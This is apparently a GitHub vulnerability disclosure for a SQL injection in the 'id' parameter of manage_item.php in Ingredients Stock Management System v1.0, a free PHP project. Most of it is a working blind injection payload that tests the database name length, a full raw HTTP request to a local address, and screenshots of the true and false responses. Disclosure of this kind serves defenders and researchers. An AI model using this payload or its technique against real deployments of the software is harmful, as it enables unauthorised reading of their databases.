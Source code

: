 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/items/manage_item.php

Vulnerability location: /isms/admin/items/manage_item.php, id

db_name = isms_db;length=7

[+] Payload: isms/admin/items/manage_item.php?id=4%27%20and%20length(database())%20=%207--+ // Leak place ---> id

```sql
GET /isms/admin/items/manage_item.php?id=4%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384142-ce106cf2-7579-4974-bbb4-a23f756861c1.png)


When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384152-145bccd5-bf57-4ee1-a434-4ebeb00938f3.png)
